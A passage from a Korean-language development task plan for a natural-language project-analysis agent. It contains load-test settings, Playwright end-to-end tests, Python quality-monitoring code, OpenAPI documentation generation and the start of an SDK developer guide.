    startRate: 0
    timeUnit: '1s'
    preAllocatedVUs: 500
    stages:
      - duration: '5m', target: 1000  # 초당 1000 요청까지 증가
      - duration: '10m', target: 1000
      - duration: '5m', target: 0

thresholds:
  http_req_duration: ['p(95)<2000', 'p(99)<5000']  # 95%는 2초, 99%는 5초 이내
  http_req_failed: ['rate<0.1']  # 실패율 10% 미만
  http_reqs: ['rate>100']  # 초당 100개 이상 처리
```

**검증 기준**:

- [ ] Locust 부하 테스트 구현
- [ ] K6 스트레스 테스트 설정
- [ ] 다양한 부하 시나리오
- [ ] 성능 메트릭 수집 및 보고

#### SubTask 4.9.3: E2E 테스트 자동화

**담당자**: 테스트 자동화 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/tests/e2e/nl-agent-e2e.spec.ts
import { test, expect } from '@playwright/test';
import { NLTestHelper } from './helpers/nl-test-helper';

// E2E 테스트 헬퍼
class NLAgentE2EHelper {
  constructor(private page: Page) {}

  async login(username: string, password: string) {
    await this.page.goto('/login');
    await this.page.fill('[data-testid="username"]', username);
    await this.page.fill('[data-testid="password"]', password);
    await this.page.click('[data-testid="login-button"]');
    await this.page.waitForURL('/dashboard');
  }

  async submitProjectDescription(description: string) {
    await this.page.goto('/new-project');
    await this.page.fill('[data-testid="project-description"]', description);
    await this.page.click('[data-testid="analyze-button"]');
  }

  async waitForAnalysis() {
    await this.page.waitForSelector('[data-testid="analysis-complete"]', {
      timeout: 30000,
    });
  }

  async answerClarificationQuestions(answers: Record<string, string>) {
    for (const [questionId, answer] of Object.entries(answers)) {
      const selector = `[data-testid="clarification-${questionId}"]`;
      await this.page.fill(selector, answer);
    }
    await this.page.click('[data-testid="submit-clarifications"]');
  }
}

test.describe('NL Agent E2E Tests', () => {
  let helper: NLAgentE2EHelper;

  test.beforeEach(async ({ page }) => {
    helper = new NLAgentE2EHelper(page);
    await helper.login('test_user', 'test_password');
  });

  test('완전한 프로젝트 생성 플로우', async ({ page }) => {
    // 1. 프로젝트 설명 입력
    await helper.submitProjectDescription(`
      I need a task management web application with the following features:
      - User authentication with email and social login
      - Create, update, and delete tasks
      - Assign tasks to team members
      - Due date reminders
      - Dashboard with task statistics
      Built with React and Node.js, deployed on AWS
    `);

    // 2. 분석 완료 대기
    await helper.waitForAnalysis();

    // 3. 결과 확인
    const projectType = await page.textContent('[data-testid="project-type"]');
    expect(projectType).toBe('Web Application');

    const technologies = await page.$$eval('[data-testid="technology-item"]', (elements) =>
      elements.map((el) => el.textContent),
    );
    expect(technologies).toContain('React');
    expect(technologies).toContain('Node.js');
    expect(technologies).toContain('AWS');

    // 4. 요구사항 확인
    const requirements = await page.$$eval('[data-testid="requirement-item"]', (elements) =>
      elements.map((el) => el.textContent),
    );
    expect(requirements.length).toBeGreaterThan(5);
    expect(requirements.some((r) => r.includes('authentication'))).toBe(true);
    expect(requirements.some((r) => r.includes('task management'))).toBe(true);

    // 5. 프로젝트 생성 진행
    await page.click('[data-testid="create-project-button"]');
    await page.waitForURL(/\/project\/[a-zA-Z0-9-]+/);

    // 6. 생성된 프로젝트 확인
    const projectTitle = await page.textContent('[data-testid="project-title"]');
    expect(projectTitle).toContain('Task Management Application');
  });

  test('명확화 플로우 E2E', async ({ page }) => {
    // 1. 모호한 설명 입력
    await helper.submitProjectDescription('I want to build an app');

    // 2. 명확화 질문 표시 확인
    await page.waitForSelector('[data-testid="clarification-form"]');

    const questions = await page.$$('[data-testid^="clarification-question-"]');
    expect(questions.length).toBeGreaterThan(0);

    // 3. 질문 내용 확인
    const firstQuestion = await questions[0].textContent();
    expect(firstQuestion).toContain('What type of application');

    // 4. 답변 제공
    await helper.answerClarificationQuestions({
      type: 'Web Application',
      purpose: 'E-commerce',
      users: 'B2C customers',
      scale: 'Medium (1000-10000 users)',
    });

    // 5. 업데이트된 분석 확인
    await helper.waitForAnalysis();

    const updatedType = await page.textContent('[data-testid="project-type"]');
    expect(updatedType).toBe('E-commerce Web Application');

    // 6. 신뢰도 점수 확인
    const confidence = await page.textContent('[data-testid="confidence-score"]');
    expect(parseFloat(confidence)).toBeGreaterThan(0.8);
  });

  test('다국어 입력 처리', async ({ page }) => {
    const multilingualDescriptions = [
      {
        lang: 'es',
        text: 'Necesito una aplicación web para gestión de tareas',
        expectedType: 'Web Application',
      },
      {
        lang: 'fr',
        text: 'Je veux créer une application mobile pour le commerce électronique',
        expectedType: 'Mobile Application',
      },
      {
        lang: 'ko',
        text: '실시간 채팅 기능이 있는 소셜 미디어 플랫폼을 만들고 싶습니다',
        expectedType: 'Social Media Platform',
      },
    ];

    for (const { lang, text, expectedType } of multilingualDescriptions) {
      await test.step(`Testing ${lang} input`, async () => {
        await helper.submitProjectDescription(text);
        await helper.waitForAnalysis();

        // 언어 감지 확인
        const detectedLang = await page.textContent('[data-testid="detected-language"]');
        expect(detectedLang).toBe(lang);

        // 프로젝트 타입 확인
        const projectType = await page.textContent('[data-testid="project-type"]');
        expect(projectType).toBe(expectedType);

        // 번역된 요구사항 확인 (영어로)
        const requirements = await page.$$eval('[data-testid="requirement-item"]', (elements) =>
          elements.map((el) => el.textContent),
        );
        expect(requirements.every((r) => /^[a-zA-Z\s]+$/.test(r))).toBe(true);
      });
    }
  });

  test('실시간 협업 기능', async ({ page, context }) => {
    // 두 번째 브라우저 컨텍스트 생성
    const page2 = await context.newPage();
    const helper2 = new NLAgentE2EHelper(page2);
    await helper2.login('test_user2', 'test_password2');

    // 1. 첫 번째 사용자가 프로젝트 설명 시작
    await helper.submitProjectDescription('Building a collaborative platform');

    // 2. 두 번째 사용자가 같은 프로젝트 참여
    const projectUrl = page.url();
    await page2.goto(projectUrl);

    // 3. 실시간 업데이트 확인
    await page.fill('[data-testid="additional-requirements"]', 'Need real-time features');

    // 두 번째 사용자 화면에 업데이트 표시
    await expect(page2.locator('[data-testid="live-update-indicator"]')).toBeVisible();
    await expect(page2.locator('text=Need real-time features')).toBeVisible({
      timeout: 5000,
    });

    // 4. 동시 편집 충돌 해결
    await page.fill('[data-testid="tech-stack-input"]', 'React, Node.js');
    await page2.fill('[data-testid="tech-stack-input"]', 'Vue, Django');

    // 충돌 해결 UI 표시
    await expect(page.locator('[data-testid="conflict-resolution"]')).toBeVisible();
    await page.click('[data-testid="merge-changes"]');

    // 병합된 결과 확인
    const mergedTech = await page.textContent('[data-testid="tech-stack-final"]');
    expect(mergedTech).toContain('React');
    expect(mergedTech).toContain('Vue');
  });

  test('오류 처리 및 복구', async ({ page }) => {
    // 1. 네트워크 오류 시뮬레이션
    await page.route('**/api/v1/nl-input/analyze', (route) => {
      route.abort('failed');
    });

    await helper.submitProjectDescription('Test project with network error');

    // 오류 메시지 표시
    await expect(page.locator('[data-testid="error-message"]')).toContainText(
      'Network error occurred',
    );

    // 재시도 버튼 표시
    await expect(page.locator('[data-testid="retry-button"]')).toBeVisible();

    // 2. 네트워크 복구 및 재시도
    await page.unroute('**/api/v1/nl-input/analyze');
    await page.click('[data-testid="retry-button"]');

    // 성공적인 분석
    await helper.waitForAnalysis();
    await expect(page.locator('[data-testid="project-type"]')).toBeVisible();

    // 3. 세션 만료 처리
    await page.evaluate(() => {
      localStorage.removeItem('auth_token');
    });

    await helper.submitProjectDescription('Test after session expiry');

    // 로그인 페이지로 리다이렉트
    await page.waitForURL('/login');

    // 재로그인 후 이전 작업 복구
    await helper.login('test_user', 'test_password');
    await expect(page.locator('[data-testid="recovered-draft"]')).toContainText(
      'Test after session expiry',
    );
  });
});

// Visual Regression 테스트
test.describe('Visual Regression Tests', () => {
  test('분석 결과 UI 스냅샷', async ({ page }) => {
    const helper = new NLAgentE2EHelper(page);
    await helper.login('test_user', 'test_password');

    await helper.submitProjectDescription('E-commerce platform with React and Node.js');
    await helper.waitForAnalysis();

    // 전체 페이지 스냅샷
    await expect(page).toHaveScreenshot('analysis-results-full.png', {
      fullPage: true,
      animations: 'disabled',
    });

    // 개별 컴포넌트 스냅샷
    await expect(page.locator('[data-testid="requirements-section"]')).toHaveScreenshot(
      'requirements-section.png',
    );

    await expect(page.locator('[data-testid="tech-stack-visualization"]')).toHaveScreenshot(
      'tech-stack-viz.png',
    );
  });
});
```

**검증 기준**:

- [ ] 전체 사용자 플로우 테스트
- [ ] 멀티브라우저 지원
- [ ] 실시간 기능 테스트
- [ ] Visual regression 테스트

#### SubTask 4.9.4: 품질 메트릭 및 모니터링

**담당자**: QA 리드  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_quality_metrics.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass
from datetime import datetime, timedelta
import numpy as np

@dataclass
class QualityMetrics:
    accuracy: float
    precision: float
    recall: float
    f1_score: float
    confidence_calibration: float
    user_satisfaction: float
    processing_efficiency: float

class NLQualityMonitor:
    """NL Agent 품질 모니터링 시스템"""

    def __init__(self):
        self.metrics_collector = MetricsCollector()
        self.evaluation_engine = EvaluationEngine()
        self.alert_manager = AlertManager()
        self.report_generator = ReportGenerator()

    async def evaluate_quality(
        self,
        time_window: timedelta = timedelta(hours=24)
    ) -> QualityMetrics:
        """품질 메트릭 평가"""

        # 데이터 수집
        end_time = datetime.utcnow()
        start_time = end_time - time_window

        evaluation_data = await self.metrics_collector.collect_evaluation_data(
            start_time,
            end_time
        )

        # 정확도 계산
        accuracy = await self._calculate_accuracy(evaluation_data)

        # 정밀도/재현율 계산
        precision, recall = await self._calculate_precision_recall(evaluation_data)

        # F1 스코어
        f1_score = 2 * (precision * recall) / (precision + recall) if (precision + recall) > 0 else 0

        # 신뢰도 보정
        confidence_calibration = await self._calculate_confidence_calibration(
            evaluation_data
        )

        # 사용자 만족도
        user_satisfaction = await self._calculate_user_satisfaction(evaluation_data)

        # 처리 효율성
        processing_efficiency = await self._calculate_processing_efficiency(
            evaluation_data
        )

        metrics = QualityMetrics(
            accuracy=accuracy,
            precision=precision,
            recall=recall,
            f1_score=f1_score,
            confidence_calibration=confidence_calibration,
            user_satisfaction=user_satisfaction,
            processing_efficiency=processing_efficiency
        )

        # 임계값 확인 및 알림
        await self._check_quality_thresholds(metrics)

        return metrics

    async def _calculate_accuracy(
        self,
        data: Dict[str, Any]
    ) -> float:
        """정확도 계산"""

        correct_predictions = 0
        total_predictions = 0

        for sample in data.get("samples", []):
            if sample["predicted_type"] == sample["actual_type"]:
                correct_predictions += 1
            total_predictions += 1

        return correct_predictions / total_predictions if total_predictions > 0 else 0

    async def _calculate_confidence_calibration(
        self,
        data: Dict[str, Any]
    ) -> float:
        """신뢰도 보정 계산 (ECE - Expected Calibration Error)"""

        bins = np.linspace(0, 1, 11)
        bin_accuracies = []
        bin_confidences = []
        bin_counts = []

        for i in range(len(bins) - 1):
            bin_mask = (
                (data["confidence_scores"] >= bins[i]) &
                (data["confidence_scores"] < bins[i + 1])
            )

            if np.sum(bin_mask) > 0:
                bin_accuracies.append(np.mean(data["correct"][bin_mask]))
                bin_confidences.append(np.mean(data["confidence_scores"][bin_mask]))
                bin_counts.append(np.sum(bin_mask))

        # ECE 계산
        total_samples = sum(bin_counts)
        ece = sum(
            (count / total_samples) * abs(acc - conf)
            for acc, conf, count in zip(bin_accuracies, bin_confidences, bin_counts)
        )

        return 1 - ece  # 1에 가까울수록 좋음

class QualityAlertManager:
    """품질 알림 관리"""

    def __init__(self):
        self.thresholds = {
            "accuracy": 0.85,
            "f1_score": 0.80,
            "user_satisfaction": 0.75,
            "processing_efficiency": 0.70,
            "response_time_p95": 2000,  # ms
            "error_rate": 0.05
        }
        self.notification_channels = ["slack", "email", "pagerduty"]

    async def check_and_alert(
        self,
        metrics: Dict[str, float]
    ):
        """메트릭 확인 및 알림"""

        alerts = []

        for metric_name, threshold in self.thresholds.items():
            current_value = metrics.get(metric_name, 0)

            if metric_name == "error_rate":
                # 에러율은 낮을수록 좋음
                if current_value > threshold:
                    alerts.append({
                        "metric": metric_name,
                        "current": current_value,
                        "threshold": threshold,
                        "severity": "critical" if current_value > threshold * 2 else "warning"
                    })
            else:
                # 다른 메트릭은 높을수록 좋음
                if current_value < threshold:
                    alerts.append({
                        "metric": metric_name,
                        "current": current_value,
                        "threshold": threshold,
                        "severity": "critical" if current_value < threshold * 0.8 else "warning"
                    })

        if alerts:
            await self._send_alerts(alerts)

    async def _send_alerts(self, alerts: List[Dict[str, Any]]):
        """알림 전송"""

        for alert in alerts:
            message = self._format_alert_message(alert)

            for channel in self.notification_channels:
                if channel == "slack":
                    await self._send_slack_alert(message, alert["severity"])
                elif channel == "email":
                    await self._send_email_alert(message, alert["severity"])
                elif channel == "pagerduty" and alert["severity"] == "critical":
                    await self._trigger_pagerduty(message)

class QualityDashboard:
    """품질 대시보드 생성"""

    def __init__(self):
        self.metrics_store = MetricsStore()
        self.visualizer = MetricsVisualizer()

    async def generate_dashboard(
        self,
        time_range: str = "24h"
    ) -> Dict[str, Any]:
        """품질 대시보드 데이터 생성"""

        # 시계열 데이터
        time_series_data = await self._get_time_series_metrics(time_range)

        # 현재 상태
        current_metrics = await self._get_current_metrics()

        # 트렌드 분석
        trends = await self._analyze_trends(time_series_data)

        # 이상 감지
        anomalies = await self._detect_anomalies(time_series_data)

        return {
            "timestamp": datetime.utcnow().isoformat(),
            "time_range": time_range,
            "current_state": {
                "overall_health": self._calculate_health_score(current_metrics),
                "metrics": current_metrics,
                "status_by_component": await self._get_component_status()
            },
            "time_series": {
                "accuracy": time_series_data.get("accuracy", []),
                "response_time": time_series_data.get("response_time", []),
                "throughput": time_series_data.get("throughput", []),
                "error_rate": time_series_data.get("error_rate", [])
            },
            "trends": trends,
            "anomalies": anomalies,
            "recommendations": await self._generate_recommendations(
                current_metrics,
                trends,
                anomalies
            )
        }

    def _calculate_health_score(
        self,
        metrics: Dict[str, float]
    ) -> float:
        """전체 건강도 점수 계산"""

        weights = {
            "accuracy": 0.3,
            "user_satisfaction": 0.25,
            "processing_efficiency": 0.2,
            "error_rate": 0.15,
            "response_time": 0.1
        }

        score = 0
        for metric, weight in weights.items():
            if metric in metrics:
                if metric == "error_rate":
                    # 에러율은 낮을수록 좋음
                    normalized = 1 - min(metrics[metric], 1)
                elif metric == "response_time":
                    # 응답시간은 목표 대비 비율
                    normalized = min(1, 2000 / metrics[metric]) if metrics[metric] > 0 else 1
                else:
                    normalized = min(metrics[metric], 1)

                score += normalized * weight

        return score

# 품질 보고서 생성기
class QualityReportGenerator:
    """주기적 품질 보고서 생성"""

    async def generate_weekly_report(self) -> Dict[str, Any]:
        """주간 품질 보고서"""

        end_date = datetime.utcnow()
        start_date = end_date - timedelta(days=7)

        report = {
            "report_type": "weekly_quality",
            "period": {
                "start": start_date.isoformat(),
                "end": end_date.isoformat()
            },
            "executive_summary": await self._generate_executive_summary(
                start_date,
                end_date
            ),
            "detailed_metrics": await self._collect_detailed_metrics(
                start_date,
                end_date
            ),
            "incidents": await self._get_incidents(start_date, end_date),
            "improvements": await self._identify_improvements(start_date, end_date),
            "action_items": await self._generate_action_items()
        }

        return report
```

**검증 기준**:

- [ ] 품질 메트릭 자동 수집
- [ ] 실시간 품질 모니터링
- [ ] 자동 알림 시스템
- [ ] 품질 대시보드 및 보고서

---

### Task 4.10: NL Agent 문서화 및 개발자 경험

#### SubTask 4.10.1: API 문서 자동 생성

**담당자**: 기술 문서 작성자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_api_documentation.py
from typing import Dict, List, Any, Optional
from fastapi import FastAPI
from fastapi.openapi.utils import get_openapi
from pydantic import BaseModel, Field
import yaml
import json

class NLAPIDocumentationGenerator:
    """NL Agent API 문서 자동 생성"""

    def __init__(self, app: FastAPI):
        self.app = app
        self.examples_collector = ExamplesCollector()
        self.schema_enhancer = SchemaEnhancer()

    def generate_enhanced_openapi(self) -> Dict[str, Any]:
        """향상된 OpenAPI 스펙 생성"""

        # 기본 OpenAPI 스키마
        openapi_schema = get_openapi(
            title="T-Developer NL Input Agent API",
            version="1.0.0",
            description=self._get_api_description(),
            routes=self.app.routes
        )

        # 스키마 향상
        openapi_schema = self.schema_enhancer.enhance(openapi_schema)

        # 예제 추가
        openapi_schema = self._add_examples(openapi_schema)

        # 인증 정보 추가
        openapi_schema["components"]["securitySchemes"] = {
            "bearerAuth": {
                "type": "http",
                "scheme": "bearer",
                "bearerFormat": "JWT",
                "description": "JWT token for authentication"
            },
            "apiKey": {
                "type": "apiKey",
                "in": "header",
                "name": "X-API-Key",
                "description": "API key for service-to-service communication"
            }
        }

        # 태그 설명 추가
        openapi_schema["tags"] = self._get_tags_metadata()

        # 서버 정보
        openapi_schema["servers"] = [
            {
                "url": "https://api.t-developer.com",
                "description": "Production server"
            },
            {
                "url": "https://staging-api.t-developer.com",
                "description": "Staging server"
            },
            {
                "url": "http://localhost:8000",
                "description": "Development server"
            }
        ]

        return openapi_schema

    def _get_api_description(self) -> str:
        """API 설명 생성"""

        return """
# T-Developer NL Input Agent API

## Overview
The NL Input Agent API allows you to analyze natural language project descriptions
and convert them into structured requirements for application development.

## Key Features
- **Natural Language Processing**: Advanced NLP to understand project descriptions
- **Multi-language Support**: Process descriptions in multiple languages
- **Clarification System**: Interactive clarification for ambiguous requirements
- **Real-time Processing**: WebSocket support for real-time feedback
- **Comprehensive Analysis**: Extract technical and non-functional requirements

## Authentication
This API uses JWT tokens for authentication. Include the token in the Authorization header:
```

Authorization: Bearer <your-token>

````

## Rate Limits
- **Free tier**: 100 requests per day
- **Pro tier**: 1,000 requests per day
- **Enterprise**: Unlimited

## Getting Started
1. Obtain an API token from your dashboard
2. Make a POST request to `/api/v1/nl-input/analyze` with your project description
3. Process any clarification questions if needed
4. Receive structured requirements for your project

## Error Handling
The API uses standard HTTP status codes and returns detailed error messages in JSON format.
        """

    def _add_examples(self, schema: Dict[str, Any]) -> Dict[str, Any]:
        """API 예제 추가"""

        # 분석 엔드포인트 예제
        if "/api/v1/nl-input/analyze" in schema["paths"]:
            schema["paths"]["/api/v1/nl-input/analyze"]["post"]["examples"] = {
                "simple_web_app": {
                    "summary": "Simple Web Application",
                    "value": {
                        "description": "Build a todo list web app with user authentication",
                        "user_id": "user_123",
                        "language": "en"
                    }
                },
                "complex_platform": {
                    "summary": "Complex E-commerce Platform",
                    "value": {
                        "description": """
                        I need a comprehensive e-commerce platform with:
                        - Multi-vendor marketplace
                        - Real-time inventory management
                        - AI-powered recommendations
                        - Mobile apps for iOS and Android
                        - Payment gateway integration
                        - Admin dashboard with analytics
                        """,
                        "user_id": "user_456",
                        "context": {
                            "industry": "retail",
                            "target_market": "B2C",
                            "expected_users": 100000
                        }
                    }
                },
                "multilingual": {
                    "summary": "Multilingual Input",
                    "value": {
                        "description": "J'ai besoin d'une application de gestion de projet",
                        "user_id": "user_789",
                        "language": "fr"
                    }
                }
            }

        return schema

    def _get_tags_metadata(self) -> List[Dict[str, Any]]:
        """태그 메타데이터"""

        return [
            {
                "name": "nl-input",
                "description": "Natural language input processing endpoints",
                "externalDocs": {
                    "description": "NL Processing Guide",
                    "url": "https://docs.t-developer.com/nl-input"
                }
            },
            {
                "name": "clarification",
                "description": "Clarification question handling",
                "externalDocs": {
                    "description": "Clarification System Guide",
                    "url": "https://docs.t-developer.com/clarification"
                }
            },
            {
                "name": "analysis",
                "description": "Project analysis and requirements extraction"
            },
            {
                "name": "realtime",
                "description": "WebSocket endpoints for real-time processing"
            }
        ]

# API 모델 문서화
class DocumentedModel(BaseModel):
    """문서화된 Pydantic 모델 베이스"""

    class Config:
        json_schema_extra = {
            "example": {}
        }

class NLInputRequest(DocumentedModel):
    """프로젝트 설명 분석 요청"""

    description: str = Field(
        ...,
        description="Natural language description of the project",
        min_length=10,
        max_length=5000,
        example="I need a React web app with user authentication and a dashboard"
    )

    user_id: str = Field(
        ...,
        description="Unique identifier of the user",
        example="user_123456"
    )

    language: Optional[str] = Field(
        "en",
        description="Language code of the description (ISO 639-1)",
        pattern="^[a-z]{2}$",
        example="en"
    )

    context: Optional[Dict[str, Any]] = Field(
        None,
        description="Additional context for better analysis",
        example={
            "industry": "healthcare",
            "target_audience": "doctors",
            "budget": "medium"
        }
    )

    preferences: Optional[Dict[str, Any]] = Field(
        None,
        description="User preferences for technology choices",
        example={
            "frontend": ["React", "Vue"],
            "backend": ["Node.js"],
            "cloud": "AWS"
        }
    )

    class Config:
        json_schema_extra = {
            "example": {
                "description": "Build an e-commerce platform with React and Node.js. "
                              "Need user authentication, product catalog, shopping cart, "
                              "and payment integration with Stripe.",
                "user_id": "user_123456",
                "language": "en",
                "context": {
                    "industry": "retail",
                    "expected_traffic": "10000 users/day"
                }
            }
        }

class ProjectRequirements(DocumentedModel):
    """추출된 프로젝트 요구사항"""

    project_id: str = Field(
        ...,
        description="Unique project identifier",
        example="proj_abc123"
    )

    project_type: str = Field(
        ...,
        description="Detected project type",
        example="web_application"
    )

    technical_requirements: List[Dict[str, Any]] = Field(
        ...,
        description="List of technical/functional requirements",
        example=[
            {
                "id": "req_001",
                "description": "User authentication system",
                "priority": "high",
                "category": "security"
            }
        ]
    )

    non_functional_requirements: List[Dict[str, Any]] = Field(
        ...,
        description="List of non-functional requirements",
        example=[
            {
                "id": "nfr_001",
                "type": "performance",
                "description": "Page load time < 2 seconds",
                "metric": "response_time",
                "target": "2s"
            }
        ]
    )

    technology_preferences: Dict[str, List[str]] = Field(
        ...,
        description="Recommended technology stack",
        example={
            "frontend": ["React", "TypeScript"],
            "backend": ["Node.js", "Express"],
            "database": ["PostgreSQL"],
            "cloud": ["AWS"]
        }
    )

    constraints: List[Dict[str, Any]] = Field(
        default_factory=list,
        description="Project constraints and limitations",
        example=[
            {
                "type": "budget",
                "description": "Development budget < $50,000"
            }
        ]
    )

    confidence_score: float = Field(
        ...,
        description="Confidence score of the analysis (0-1)",
        ge=0,
        le=1,
        example=0.92
    )

# Markdown 문서 생성기
class MarkdownDocGenerator:
    """Markdown 형식 API 문서 생성"""

    def generate_api_reference(self, openapi_spec: Dict[str, Any]) -> str:
        """API 레퍼런스 생성"""

        md_content = []

        # 헤더
        md_content.append(f"# {openapi_spec['info']['title']}")
        md_content.append(f"\nVersion: {openapi_spec['info']['version']}")
        md_content.append(f"\n{openapi_spec['info']['description']}")

        # 인증
        md_content.append("\n## Authentication")
        for scheme_name, scheme in openapi_spec["components"]["securitySchemes"].items():
            md_content.append(f"\n### {scheme_name}")
            md_content.append(f"- Type: {scheme['type']}")
            md_content.append(f"- Description: {scheme.get('description', 'N/A')}")

        # 엔드포인트
        md_content.append("\n## Endpoints")

        for path, methods in openapi_spec["paths"].items():
            for method, details in methods.items():
                if method in ["get", "post", "put", "delete", "patch"]:
                    md_content.append(f"\n### {method.upper()} {path}")
                    md_content.append(f"\n{details.get('summary', '')}")
                    md_content.append(f"\n{details.get('description', '')}")

                    # 파라미터
                    if "parameters" in details:
                        md_content.append("\n#### Parameters")
                        for param in details["parameters"]:
                            md_content.append(
                                f"- **{param['name']}** ({param['in']}): "
                                f"{param.get('description', '')} "
                                f"{'(required)' if param.get('required') else '(optional)'}"
                            )

                    # 요청 바디
                    if "requestBody" in details:
                        md_content.append("\n#### Request Body")
                        content = details["requestBody"].get("content", {})
                        if "application/json" in content:
                            schema = content["application/json"].get("schema", {})
                            md_content.append("```json")
                            md_content.append(json.dumps(
                                self._get_example_from_schema(schema),
                                indent=2
                            ))
                            md_content.append("```")

                    # 응답
                    md_content.append("\n#### Responses")
                    for status_code, response in details.get("responses", {}).items():
                        md_content.append(f"\n**{status_code}**: {response.get('description', '')}")

                        if "content" in response:
                            content = response["content"].get("application/json", {})
                            if "schema" in content:
                                md_content.append("```json")
                                md_content.append(json.dumps(
                                    self._get_example_from_schema(content["schema"]),
                                    indent=2
                                ))
                                md_content.append("```")

        return "\n".join(md_content)
````

**검증 기준**:

- [ ] OpenAPI 3.0 스펙 생성
- [ ] 풍부한 예제 포함
- [ ] 다양한 형식 지원 (JSON, YAML, Markdown)
- [ ] 인터랙티브 문서 (Swagger UI)

#### SubTask 4.10.2: 개발자 가이드 및 튜토리얼

**담당자**: 개발자 경험 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

````markdown
# backend/docs/nl-agent-developer-guide.md

# NL Input Agent Developer Guide

## Table of Contents

1. [Getting Started](#getting-started)
2. [Core Concepts](#core-concepts)
3. [Integration Guide](#integration-guide)
4. [Advanced Features](#advanced-features)
5. [Best Practices](#best-practices)
6. [Troubleshooting](#troubleshooting)

## Getting Started

### Installation

```bash
# Using npm
npm install @t-developer/nl-agent-sdk

# Using yarn
yarn add @t-developer/nl-agent-sdk

# Using pip (Python)
pip install t-developer-nl-agent
```
````

### Quick Start

```typescript
import { NLInputClient } from '@t-developer/nl-agent-sdk';

// Initialize the client
const client = new NLInputClient({
  apiKey: 'your-api-key',
  apiUrl: 'https://api.t-developer.com',
});

// Analyze a project description
async function analyzeProject() {
  try {
    const result = await client.analyzeProjectDescription({
      description: 'I need a task management web app with user authentication',
      userId: 'user_123',
    });

    console.log('Project Type:', result.requirements.projectType);
    console.log('Technologies:', result.requirements.technologyPreferences);

    // Handle clarifications if needed
    if (result.clarificationNeeded) {
      const answers = await promptUserForClarifications(result.clarificationQuestions);
      const finalResult = await client.processClarification(result.sessionId, answers);
    }
  } catch (error) {
    console.error('Analysis failed:', error);
  }
}
```

## Core Concepts

### 1. Project Description Analysis

The NL Agent analyzes natural language descriptions to extract:

- **Project Type**: Web app, mobile app, API, etc.
- **Technical Requirements**: Features and functionalities
- **Non-functional Requirements**: Performance, security, scalability
- **Technology Stack**: Recommended technologies
- **Constraints**: Budget, timeline, regulatory

### 2. Clarification System

When the input is ambiguous, the agent generates clarification questions:

```typescript
interface ClarificationQuestion {
  id: string;
  question: string;
  category: 'project_type' | 'features' | 'technical' | 'constraints';
  options?: string[];
  required: boolean;
  impact: 'high' | 'medium' | 'low';
}
```

### 3. Confidence Scoring

Each analysis includes a confidence score (0-1) indicating the certainty of the extraction:

- **0.9+**: High confidence, minimal ambiguity
- **0.7-0.9**: Good confidence, some assumptions made
- **0.5-0.7**: Moderate confidence, clarifications recommended
- **<0.5**: Low confidence, clarifications required

## Integration Guide

### REST API Integration

```python
import requests
import json

class NLAgentClient:
    def __init__(self, api_key, base_url="https://api.t-developer.com"):
        self.api_key = api_key
        self.base_url = base_url
        self.headers = {
            "Authorization": f"Bearer {api_key}",
            "Content-Type": "application/json"
        }

    def analyze_description(self, description, user_id, **kwargs):
        """Analyze a project description"""

        payload = {
            "description": description,
            "user_id": user_id,
            **kwargs
        }

        response = requests.post(
            f"{self.base_url}/api/v1/nl-input/analyze",
            headers=self.headers,
            json=payload
        )

        response.raise_for_status()
        return response.json()

    def process_clarification(self, session_id, answers):
        """Process clarification answers"""

        response = requests.post(
            f"{self.base_url}/api/v1/nl-input/clarify/{session_id}",
            headers=self.headers,
            json={"answers": answers}
        )

        response.raise_for_status()
        return response.json()

# Usage example
client = NLAgentClient("your-api-key")

# Initial analysis
result = client.analyze_description(
    "Build a social media app with real-time chat",
    "user_123",
    language="en"
)

print(f"Project Type: {result['requirements']['project_type']}")
print(f"Confidence: {result['confidence_score']}")

# Handle clarifications
if result['clarification_needed']:
    # Collect user answers
    answers = {
        q['id']: input(f"{q['question']}: ")
        for q in result['clarification_questions']
    }

    # Submit clarifications
    final_result = client.process_clarification(
        result['session_id'],
        answers
    )
```

### GraphQL Integration

```graphql
# Query for analyzing a project
mutation AnalyzeProject($input: AnalyzeInput!) {
  analyzeProjectDescription(input: $input) {
    projectId
    status
    requirements {
      projectType
      technicalRequirements {
        id
        description
        priority
        category
      }
      technologyPreferences {
        frontend
        backend
        database
      }
    }
    clarificationNeeded
    clarificationQuestions {
      id
      question
      options
      required
    }
    confidenceScore
  }
}

# Variables
{
  "input": {
    "description": "E-commerce platform with payment integration",
    "userId": "user_123",
    "preferences": {
      "projectType": "WEB_APPLICATION",
      "techStack": ["React", "Node.js"]
    }
  }
}
```

### WebSocket Real-time Integration

```javascript
// Real-time analysis with feedback
const ws = new WebSocket('wss://api.t-developer.com/ws/nl-input/realtime');

ws.onopen = () => {
  // Start analysis
  ws.send(
    JSON.stringify({
      type: 'start_analysis',
      data: {
        description: 'Building a project management tool',
        sessionId: 'session_123',
      },
    }),
  );
};

ws.onmessage = (event) => {
  const message = JSON.parse(event.data);

  switch (message.type) {
    case 'analysis_progress':
      console.log(`Progress: ${message.progress}%`);
      break;

    case 'clarification_needed':
      // Show clarification UI
      displayClarificationQuestions(message.questions);
      break;

    case 'analysis_complete':
      console.log('Analysis complete:', message.requirements);
      break;

    case 'error':
      console.error('Analysis error:', message.error);
      break;
  }
};

// Send feedback during analysis
function sendFeedback(feedback) {
  ws.send(
    JSON.stringify({
      type: 'feedback',
      data: {
        type: 'correction',
        content: feedback,
      },
    }),
  );
}
```

## Advanced Features

### 1. Multi-language Support

```typescript
// Analyze in different languages
const results = await Promise.all([
  client.analyzeProjectDescription({
    description: 'Necesito una aplicación web de comercio electrónico',
    userId: 'user_123',
    language: 'es',
  }),
  client.analyzeProjectDescription({
    description: '電子商取引のウェブアプリケーションが必要です',
    userId: 'user_123',
    language: 'ja',
  }),
]);

// Results will be in English regardless of input language
```

### 2. Context-Aware Analysis

```typescript
// Provide additional context for better analysis
const result = await client.analyzeProjectDescription({
  description: 'Build a platform for our company',
  userId: 'user_123',
  context: {
    industry: 'healthcare',
    companySize: 'enterprise',
    existingStack: ['Java', 'Oracle'],
    regulations: ['HIPAA', 'GDPR'],
    targetAudience: 'hospitals',
  },
});

// The agent will consider healthcare-specific requirements
// and compliance needs in its analysis
```

### 3. Batch Processing

```typescript
// Process multiple descriptions efficiently
const descriptions = [
  'E-commerce site with inventory management',
  'Mobile app for fitness tracking',
  'API for payment processing',
];

const results = await client.batchAnalyze({
